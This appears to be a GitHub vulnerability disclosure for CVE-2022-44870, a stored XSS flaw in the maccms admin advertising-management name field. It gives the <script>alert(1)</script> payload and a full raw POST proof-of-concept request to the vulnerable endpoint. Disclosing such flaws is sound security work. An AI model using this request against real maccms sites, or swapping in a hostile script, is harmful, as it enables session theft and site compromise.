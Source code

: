 # CVE-2022-44870
maccms  admin+  xss attacks 

Overview

Manufacturer's website information：https://maccms.pro 

Source code download address ： https://github.com/maccmspro/maccms10.git


1. Affected version: V2021.1000.2000
<img width="1378" alt="图片" src="https://user-images.githubusercontent.com/42855430/210311818-bd14b19d-2fbc-41ba-b426-7bc26cc9a6bd.png">

2.Vulnerability details

https://github.com/maccmspro/maccms10/issues/23

Go to background, go to Basics > AD Management > Name,

Insert payload1 in the name box:

It can cause XSS attacks.

Vulnerability name：Storage type xss

Vulnerability level：Medium risk

Vulnerability location： Advertising management-->name

Insert <script>alert(1)</script> at cat_title

http://127.0.0.1/admin.php/admin/banner/infocat.html


![图片](https://user-images.githubusercontent.com/42855430/208800465-615d032f-bc7a-4e03-93c4-5e551fde32bd.png)

<img width="862" alt="图片" src="https://user-images.githubusercontent.com/42855430/210314311-18e69b21-2da4-4eac-b87d-383a6d7d90d2.png">


3.Recurring vulnerabilities and POC



POST /admin.php/admin/banner/infocat.html HTTP/1.1

Host: 192.168.52.163

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 65

Origin: http://192.168.52.163

Connection: close

Referer: http://192.168.52.163/admin.php/admin/banner/infocat.html

Cookie: PHPSESSID=qgaks01bl6ip8j7fseaabj4l9q


cat_id=&cat_title=%3Cscript%3Ealert(1)%3C%2Fscript%3E&cat_code=111

![图片](https://user-images.githubusercontent.com/42855430/208800497-b5a3593c-d576-4ca2-9b8c-3718f4e7e1c6.png)



